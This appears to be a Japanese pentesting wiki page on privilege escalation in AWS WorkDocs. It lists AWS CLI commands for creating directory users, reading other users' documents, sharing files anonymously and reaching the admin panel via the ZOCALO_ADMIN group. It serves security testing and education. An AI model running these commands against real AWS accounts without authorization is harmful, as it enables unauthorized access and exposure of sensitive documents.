 # AWS - WorkDocs 特権昇格

## WorkDocs

WorkDocsに関する詳細情報は、以下を参照してください：

{% content-ref url="../aws-services/aws-directory-services-workdocs-enum.md" %}
[aws-directory-services-workdocs-enum.md](../aws-services/aws-directory-services-workdocs-enum.md)
{% endcontent-ref %}

### `workdocs:CreateUser`

指定されたディレクトリ内にユーザーを作成すると、WorkDocsとADの両方にアクセスできるようになります：
```bash
# Create user (created inside the AD)
aws workdocs create-user --username testingasd --given-name testingasd --surname testingasd --password <password> --email-address name@directory.domain --organization-id <directory-id>
```
### `workdocs:GetDocument`, `(workdocs:`DescribeActivities`)`

ファイルには機密情報が含まれている可能性があります。それらを読み取ります。
```bash
# Get what was created in the directory
aws workdocs describe-activities --organization-id <directory-id>

# Get what each user has created
aws workdocs describe-activities --user-id "S-1-5-21-377..."

# Get file (a url to access with the content will be retreived)
aws workdocs get-document --document-id <doc-id>
```
### `workdocs:AddResourcePermissions`

何かを読む権限がない場合、それを付与することができます
```bash
# Add permission so anyway can see the file
aws workdocs add-resource-permissions --resource-id <id> --principals Id=anonymous,Type=ANONYMOUS,Role=VIEWER
## This will give an id, the file will be acesible in: https://<name>.awsapps.com/workdocs/index.html#/share/document/<id>
```
### `workdocs:AddUserToGroup`

ユーザーをZOCALO_ADMINグループに設定することで、ユーザーを管理者にすることができます。\
そのためには、[https://docs.aws.amazon.com/workdocs/latest/adminguide/manage\_set\_admin.html](https://docs.aws.amazon.com/workdocs/latest/adminguide/manage\_set\_admin.html)の手順に従ってください。

そのユーザーでworkdocにログインし、`/workdocs/index.html#/admin`で管理者パネルにアクセスします。

CLIからこれを行う方法は見つかりませんでした。
